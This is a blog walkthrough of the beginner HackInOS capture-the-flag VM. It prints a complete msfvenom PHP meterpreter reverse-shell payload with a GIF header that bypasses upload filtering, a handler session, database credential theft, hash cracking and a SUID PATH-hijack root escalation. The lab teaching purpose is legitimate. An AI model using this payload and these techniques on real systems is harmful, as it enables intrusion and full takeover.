


HackInOs Walkthrough
Description
HackinOS is a beginner level CTF style vulnerable machine. I created this VM for my university’s cybersecurity community and all cyber security enthusiasts. I thank Mehmet Oguz Tozkoparan, Ömer Faruk Senyayla, and Tufan Gungor for their help during creating this lab.
Port scanning
The nmap scan gave me the following output:
root :: ~ » nmap -A -p- 192.168.43.96 -oN nmap_scan
Nmap scan report for vulnvm (192.168.43.96)
Host is up (0.00072s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 d9:c1:5c:20:9a:77:54:f8:a3:41:18:92:1b:1e:e5:35 (RSA)
| 256 df:d4:f2:61:89:61:ac:e0:ee:3b:5d:07:0d:3f:0c:87 (ECDSA)
|_ 256 8b:e4:45:ab:af:c8:0e:7e:2a:e4:47:e7:52:f9:bc:71 (ED25519)
8000/tcp open http Apache httpd 2.4.25 ((Debian))
|_http-generator: WordPress 5.0.3
|_http-open-proxy: Proxy might be redirecting requests
| http-robots.txt: 2 disallowed entries
|_/upload.php /uploads
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Blog – Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
We have 2 TCP port open to work with. I always start with the web server, but it’s a good practice to check the SSH if it is vulnerable.
It looks like that on port 8000, there is a web server running (probably Wordpress 5.0.3) and it has 2 disallowed entries in the robots.txt file. One of them is an upload directory, the other one is an upload script written in PHP. Let’s check these out!
Uploading images
I was presented with a very basic upload site, where you can probably upload different kinds of images. After inspecting the source using the developer tools, I found a comment in the site’s source code. It was a Github repository link, which contains the source of the upload script. As it turns out, this was a great help!

I copied the actual PHP code from the repository and pasted below.
1 |
|
Don’t be intimidated by the code, it’s actually very simple. First of all, it generates a number between 1 and 100. Then, the file name + this random number gets concatenated and the md5() function calculates the MD5 hash. Since, 1 - 100 is not a big range of numbers, we can easily brute-force this. So, if we were to upload a reverse shell, we have to write a small script which loops through those numbers and calculates the MD5 hash of the file name + current index. After that, the script checks whether the MIME type of the file is “image/png” or “image/gif” and if it is the upload will be successful.
Creating a reverse shell
I quickly generated a PHP reverse shell with the help of msfvenom and named it “creatively” shell.php. I also added a GIF89a; file header above the reverse shell code to bypass upload restrictions.
root :: ~/Downloads » sudo msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.43.2 LPORT=9898 -f raw > shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1113 bytes
root :: ~/Downloads » ls
shell.php
root :: ~/Downloads » cat shell.php
/*<?php /**/ error_reporting(0); $ip = '192.168.43.2'; $port = 9898; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();%
root :: ~/Downloads » nvim shell.php
root :: ~/Downloads » cat shell.php
GIF89a;
/*<?php /**/ error_reporting(0); $ip = '192.168.43.2'; $port = 9898; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
root :: ~/Downloads »
On the following picture, you can see the intercepted upload request in Burp Suite. At this point, we are able to upload arbitrary files, but we can’t really execute them.

Writing the exploit
Now, let’s write a simple Python script. First, I stored the target and the file name in separate variables. Then, the loop goes from 1 to 100 and in its body, I created a new file name by appending the current index to the initial file name. We have to hash this string value with the MD5 algorithm. After that, the URL is almost ready, but we have to append the original extension (‘.php’) at the end. I’m waiting one second after each request just in case, but you can decrease this number (or simply comment it out) to make the process faster.
1 | import hashlib |
If we found the correct hash the script will “stop” and we should see that a meterpreter shell opened and got a connection back.
msf5 > use multi/handler
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.43.2
lhost => 192.168.43.2
msf5 exploit(multi/handler) > set lport 9898
lport => 9898
msf5 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.43.2:9898
[*] Sending stage (38247 bytes) to 192.168.43.96
[*] Meterpreter session 1 opened (192.168.43.2:9898 -> 192.168.43.96:32900)
meterpreter >
Enumeration
I usually switch to the netcat like shell with the shell command and explore the machine. In this case, python was installed and I could easily upgrade it to a pseudo TTY shell. Since there was a Wordpress installation I went on to see the wp-config.php file for juicy information. I found out that the database host is db, the database name is wordpress and the password is wordpress too. Here is how I connected to the database:
python -c "import pty;pty.spawn('/bin/bash')"
www-data@1afdd1f6b82c:/var/www/html$ mysql -h db -u wordpress -p
mysql -h db -u wordpress -p
Enter password: wordpress
Welcome to the MariaDB monitor. Commands end with ; or \g.
Your MySQL connection id is 39
Server version: 5.7.25 MySQL Community Server (GPL)
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
MySQL [(none)]>
In the wordpress database, there was a particularly interesting table named host_ssh_cred. Previously, I ran the famous LinEnum.sh script, which identified that we are actually in a Docker container.
Escaping the container
I obviously printed out everything in that table. Be careful, because the pw column actually contains an MD5 hash, not the actual password. So, the real SSH username is hummingbirdscyber and after cracking the hash the real password is 123456.
MySQL [wordpress]> select * from host_ssh_cred;
+-------------------+----------------------------------+
| id | pw |
+-------------------+----------------------------------+
| hummingbirdscyber | e10adc3949ba59abbe56e057f20f883e |
+-------------------+----------------------------------+
1 row in set (0.00 sec)
MySQL [wordpress]>
After logging in with SSH, I explored the available directories and found a file called a.out in the Desktop folder.
root :: ~ » ssh hummingbirdscyber@192.168.43.96
hummingbirdscyber@192.168.43.96's password:
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.15.0-29-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
349 packages can be updated.
248 updates are security updates.
New release '18.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.
hummingbirdscyber@vulnvm:~$ ls
Desktop Downloads Pictures Templates examples.desktop
Documents Music Public Videos
hummingbirdscyber@vulnvm:~$ cd Desktop/
hummingbirdscyber@vulnvm:~/Desktop$ ls -la
total 24
drwxr-xr-x 2 hummingbirdscyber hummingbirdscyber 4096 May 19 20:23 .
drwxr-xr-x 19 hummingbirdscyber hummingbirdscyber 4096 May 19 20:32 ..
-rwsr-xr-x 1 root root 8720 Mar 1 23:25 a.out
hummingbirdscyber@vulnvm:~/Desktop$
Getting root shell
I knew this file is the key to root this box, so I started investigating. I ran the executable and it printed out root. The file also has SUID bit set, so what it means is that the file has root permissions. The next thing I did is to run the strings command on the file. This way, we can identify strings, commands, libraries used, etc.. in the executable. I spotted the whoami command, which is probably responsible for printing out the root text.
hummingbirdscyber@vulnvm:~/Desktop$ strings a.out
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
system
setgid
__libc_start_main
__gmon_start__
GLIBC_2.2.5
UH-H
AWAVA
AUATL
[]A\A]A^A_
whoami
;*3$"
GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.10) 5.4.0 20160609
--- snip ---
The author of the program didn’t use an absolute path, so it means that we can create our own whoami script and the program will execute it like we’re root. As you can see, I created a very simple bash script to spawn a root shell… After that, I added the /home/hummingbirdscyber/Desktop/ path before the PATH environment variable to make sure our script gets called instead of the real one. Also, don’t forget to make the shell script executable!
hummingbirdscyber@vulnvm:~/Desktop$ nano whoami
hummingbirdscyber@vulnvm:~/Desktop$ cat whoami
#!/bin/bash
echo "Spawning root shell... Enjoy!"
/bin/bash
hummingbirdscyber@vulnvm:~/Desktop$ export PATH=/home/hummingbirdscyber/Desktop/:$PATH
hummingbirdscyber@vulnvm:~/Desktop$ echo $PATH
/home/hummingbirdscyber/Desktop/:/home/hummingbirdscyber/bin:/home/hummingbirdscyber/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
hummingbirdscyber@vulnvm:~/Desktop$ chmod +x whoami
hummingbirdscyber@vulnvm:~/Desktop$ ./a.out
Spawning root shell... Enjoy!
root@vulnvm:~/Desktop#
Finally, I printed out the root flag, which was a nice ASCII hummingbird.
root@vulnvm:/root# cat flag
Congratulations!
-ys-
/mms.
+NMd+`
`/so/hMMNy-
`+mMMMMMMd/ ./oso/-
`/yNMMMMMMMMNo` .` +-
.oyhMMMMMMMMMMN/. o.
`:+osysyhddhs` `o`
.:oyyhshMMMh. .:
`-//:. `:sshdh: `
-so:.
.yy.
:odh
+o--d`
/+. .d`
-/` `y`
`:` `/
`. `
root@vulnvm:/root#
Before you go
If you found this article helpful, please share to help others with similar interest find it! + Feedback and donations are always welcome!